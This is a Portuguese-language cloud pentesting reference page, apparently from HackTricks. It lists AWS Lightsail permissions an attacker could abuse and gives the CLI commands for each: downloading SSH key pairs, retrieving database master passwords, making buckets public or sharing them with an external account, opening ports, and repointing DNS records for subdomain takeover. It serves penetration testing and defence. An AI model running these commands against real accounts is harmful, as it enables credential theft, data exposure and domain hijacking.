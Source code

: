 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Para mais informações sobre Lightsail, veja:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> É importante notar que Lightsail **não usa IAM roles pertencentes ao usuário** mas sim a uma conta gerenciada pela AWS, então você não pode abusar desse serviço para privesc. No entanto, **dados sensíveis** como código, chaves de API e informações de banco de dados podem ser encontrados nesse serviço.

### `lightsail:DownloadDefaultKeyPair`

This permission will allow you to get the SSH keys to access the instances:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:GetInstanceAccessDetails`

Esta permissão permitirá que você gere chaves SSH para acessar as instâncias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instances.

### `lightsail:CreateBucketAccessKey`

Essa permissão permitirá que você obtenha uma chave para acessar o bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto potencial:** Encontrar informações sensíveis dentro do bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Esta permissão permitirá que você obtenha as credenciais para acessar o banco de dados:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:UpdateRelationalDatabase`

Esta permissão permitirá que você altere a senha para acessar o banco de dados:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Se o banco de dados não for público, você também poderia torná-lo público com essas permissões:
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Impacto Potencial:** Encontrar informações sensíveis no banco de dados.

### `lightsail:OpenInstancePublicPorts`

Esta permissão permite abrir portas para a Internet
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:PutInstancePublicPorts`

Esta permissão permite abrir portas para a Internet. Note que a chamada fechará qualquer porta aberta que não esteja especificada nela.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acessar portas sensíveis.

### `lightsail:SetResourceAccessForBucket`

Esta permissão permite conceder a instâncias acesso a um bucket sem credenciais adicionais.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Impacto Potencial:** Possível novo acesso a buckets com informações sensíveis.

### `lightsail:UpdateBucket`

Com essa permissão, um atacante poderia conceder à sua própria conta AWS acesso de leitura aos buckets ou até tornar os buckets públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Possível novo acesso a buckets com informações sensíveis.

### `lightsail:UpdateContainerService`

Com essa permissão, um atacante poderia conceder acesso a ECRs privados a partir do serviço de containers
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obter informações sensíveis de um ECR privado

### `lightsail:CreateDomainEntry`

Um atacante com essa permissão pode criar um subdomínio e apontá-lo para seu próprio endereço IP (subdomain takeover), criar um registro SPF que lhe permita spoof e-mails do domínio, ou mesmo definir o domínio principal para o seu próprio endereço IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potential Impact:** Tomada de um domínio

### `lightsail:UpdateDomainEntry`

Um atacante com essa permissão poderia criar um subdomínio e apontá-lo para seu próprio endereço IP (subdomain takeover), ou criar um registro SPF que permita spoof de e-mails do domínio, ou até apontar o domínio principal para o seu próprio endereço IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Assumir um domínio

{{#include ../../../../banners/hacktricks-training.md}}
